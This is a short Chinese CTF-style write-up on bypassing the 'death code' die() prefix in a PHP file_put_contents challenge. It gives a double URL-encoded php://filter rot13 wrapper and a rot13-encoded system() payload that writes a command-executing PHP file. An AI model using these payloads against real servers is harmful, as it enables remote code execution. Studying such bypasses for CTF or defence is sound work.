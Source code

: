 ```cobol
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
 
    
}else{
    highlight_file(__FILE__);
} 
```

 [file_put_content和死亡·杂糅代码之缘 - 先知社区](https://xz.aliyun.com/t/8163) 

出现了一个 死亡代码

在我们写入文件的时候 会先执行<?php die('大佬别秀了');?>

那我们怎么绕过呢

首先就是加密方式

我们可以通过 rot13绕过

那我们怎么绕过 过滤php正则呢 只需要通过 url编码两次绕过即可

### rot13

```cobol
php://filter/write=string.rot13/resource=2.php
 
两次url
%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%32%25%32%65%25%37%30%25%36%38%25%37%30
```

然后就是content的内容了

我们只需要 将 content内容 进行 rot13编码

然后即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/bddef28591adfc2901f33f5144d55d58.png" alt="" style="max-height:575px; box-sizing:content-box;" />




```ruby
<?cuc flfgrz('yf');?>
```

然后执行访问 2.php
